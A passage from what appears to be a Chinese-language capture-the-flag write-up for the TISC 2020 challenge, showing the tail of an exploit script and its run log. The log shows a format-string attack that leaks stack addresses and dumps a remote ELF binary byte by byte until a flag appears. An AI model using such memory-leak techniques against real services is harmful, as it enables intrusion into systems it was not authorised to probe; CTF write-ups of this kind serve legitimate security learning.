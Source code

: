 ```

if __name__ == '__main__':
    main()
```

当脚本能成功运行时，检测到ELF头文件，转存为ELF二进制文件。经过很长时间的运行，最终得到falg：

```
r10@kali:~/tisc$ python exploit6.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] Got address of index 38: 0x7ffca01db940
[*] RSP (index 0): 0x7ffca01db810
[*] Got address of index 26 (index 39): 0x7ffca01db948
[*] Got value of index 39: 0x7ffca01dcf5c
[*] Got address of index 4 (format string): 0x5557a54680a0
[*] Got address of index 7 (format string): 0x5557a54652e0
[*] ELF Start: 0x5557a5464000
[*] ELF Start Bytes: b'\x7fELF\x02\x01\x01'
[*] Got 9 bytes of ELF data so far.
[*] Got 101 bytes of ELF data so far.
[*] Got 201 bytes of ELF data so far.
[*] Got 301 bytes of ELF data so far.
[*] Got 402 bytes of ELF data so far.
[*] Got 501 bytes of ELF data so far.
[*] Got 602 bytes of ELF data so far.
[*] Got 701 bytes of ELF data so far.
[*] Got 820 bytes of ELF data so far.
[*] Got 902 bytes of ELF data so far.
[*] Got 1001 bytes of ELF data so far.
...
[*] Got 16401 bytes of ELF data so far.
[+] Discovered flag: TISC20`{`Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938`}`
...
```

**Flag:** `TISC20`{`Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938`}``
